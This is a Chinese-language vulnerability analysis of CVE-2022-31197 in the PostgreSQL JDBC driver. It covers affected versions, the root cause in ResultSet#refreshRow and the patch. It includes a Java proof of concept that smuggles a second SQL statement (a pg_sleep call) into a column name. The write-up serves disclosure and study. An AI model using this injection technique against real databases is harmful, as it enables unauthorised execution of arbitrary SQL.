


- [CVE-2022-31197 Postgresql jdbc sql注入漏洞](#cve-2022-31197-postgresql-jdbc-sql注入漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [ResultSet#refreshRow](#resultsetrefreshrow)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2022-31197 Postgresql jdbc sql注入漏洞
## 影响版本
42.3.0<=Version<42.4.1||<42.2.26
## 环境搭建
```xml
<dependencies>
    <dependency>
        <groupId>org.postgresql</groupId>
        <artifactId>postgresql</artifactId>
        <version>42.4.0</version>
    </dependency>
</dependencies>
```
## 原理分析
### ResultSet#refreshRow
漏洞主要是由于ResultSet的refreshRow方法中对列名没有进行安全过滤,将列名通过append的方式以此拼接导致可以在生成的sql语句中注入`;`来执行任意sql语句。
  
所以该漏洞利用的条件需要能控制表中的列名,可能只会在一些数据库管理软件中利用此问题。
## 漏洞复现
测试代码
```java
import java.sql.*;
import java.time.LocalDateTime;

public class cve_2022_31197 {
    public static void main(String[] args) throws ClassNotFoundException, SQLException, InstantiationException, IllegalAccessException {
        Connection con;
        Statement st;
        ResultSet rs;

        String url = "jdbc:postgresql://localhost:5432/postgres";
        String user = "postgres";
        String password = "123456";
        Class.forName("org.postgresql.Driver").newInstance();
        con = DriverManager.getConnection(url, user, password);
        st = con.createStatement();
        st.executeUpdate("DROP TABLE IF EXISTS refresh_row_bad_ident CASCADE");
        st.execute("CREATE TABLE refresh_row_bad_ident (id int PRIMARY KEY, \"1 FROM refresh_row_bad_ident; SELECT pg_sleep(10); SELECT *\" int)");
        st.execute("INSERT INTO refresh_row_bad_ident (id) VALUES (1)");
        Statement stmt = con.createStatement(ResultSet.TYPE_FORWARD_ONLY, ResultSet.CONCUR_UPDATABLE);
        rs = stmt.executeQuery("SELECT * FROM refresh_row_bad_ident");
        rs.next();
        System.out.println(LocalDateTime.now());
        try {
            rs.refreshRow();
        } catch (SQLException e) {
            System.out.println(LocalDateTime.now());
        }
        rs.close();
        stmt.close();
    }
}

```
创建了一个名为`1 FROM refresh_row_bad_ident; SELECT pg_sleep(10); SELECT *`的恶意列名。   
    
可以看到含有`;`的恶意列名被拼接到最后执行的sql语句中造成注入。  

## 补丁
    
拼接时加了相应的过滤。  
## 参考
https://github.com/pgjdbc/pgjdbc/security/advisories/GHSA-r38f-c4h4-hqq2